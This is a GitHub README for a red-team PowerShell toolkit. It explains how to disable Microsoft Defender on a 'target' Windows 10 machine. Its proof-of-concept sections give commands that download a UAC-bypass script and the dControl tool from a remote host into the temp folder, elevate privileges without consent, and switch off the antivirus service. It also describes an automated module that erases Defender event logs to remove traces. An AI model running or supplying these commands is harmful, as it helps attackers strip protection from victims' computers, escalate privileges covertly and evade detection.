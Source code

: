## :octocat: Disable WinDefend service (anti-virus)

<br />

Author: @Sordum (RedTeam) | @r00t-3xp10it
Tested Under: Windows 10 (19042 build) x64 bits
dControl webpage: https://www.sordum.org/9480/defender-control-v1-9/
Required Dependencies: <b><i>Invoke-WebRequest</i></b> {native} , <b><i>dControl.zip</i></b> {auto-download}, <b><i>UacMe.ps1</i></b> {auto-download}
Optional Dependencies: none

<br />

## :octocat: DisableDefender.ps1 - Project Description
[Defender Control](https://www.sordum.org/9480/defender-control-v1-9/) is a small Portable freeware which will allow you to disable Microsoft Defender in Windows 10 completely.<br />But it requires [Admin privileges](https://www.howtogeek.com/194041/how-to-open-the-command-prompt-as-administrator-in-windows-8.1/) on shell to do it .. The solluction ?? [@redpill - UacMe.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) Or [@redpill - DisableDefender.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bin/DisableDefender.ps1) <-- (under dev)

<br />

## :octocat: Proof-Of-Concept ( Disable WinDefend Manually )

Upload <b><i>'dControl.exe'</i></b> + <b><i>'dControl.ini'</i></b> + <b><i>'UacMe.ps1'</i></b> to target <b><i>%tmp%</i></b> directory.
```Powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/UacMe.ps1" -OutFile "$Env:TMP\UacMe.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/DWD/dControl.zip" -OutFile "$Env:TMP\dControl.zip"
```

Expand <b><i>'dControl.zip'</i></b> archives
```powershell
Expand-Archive -Path "$Env:TMP\dControl.zip" -DestinationPath "$Env:TMP" -Force
```

Change to  [@redpill](https://github.com/r00t-3xp10it/redpill) working directory
```powershell
cd $Env:TMP
```

<b><i>Disable</i></b> WinDefend service using [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) <b><i>'UacMe.ps1'</i></b> module
```powershell
.\UacMe.ps1 -Action Elevate -Execute "$Env:TMP\dControl.exe /D"
```

<b><i>Enable</i></b> WinDefend service using [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) <b><i>'UacMe.ps1'</i></b> module
```powershell
.\UacMe.ps1 -Action Elevate -Execute "$Env:TMP\dControl.exe /E"
```

<br /><br />

## :octocat: Proof-Of-Concept ( automatic )
Remark:  [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/DisableDefender.ps1) -> DisableDefender.ps1 module automates the all process described above!<br />and deletes all artifacts left behind including eventvwr <b><i>logfiles</i></b> from Windows-Defender categorie.

Download [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/redpill.ps1)
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/redpill.ps1" -OutFile "redpill.ps1"
```

Access <b><i>'-DisableAV'</i></b> parameter <b><i>help</i></b> menu
```powershell
.\redpill.ps1 -Help DisableAV
```

<b><i>Disable</i></b> WinDefend service
```powershell
.\redpill.ps1 -DisableAV Stop
```

<b><i>Enable</i></b> WinDefend service
```powershell
.\redpill.ps1 -DisableAV Start
```
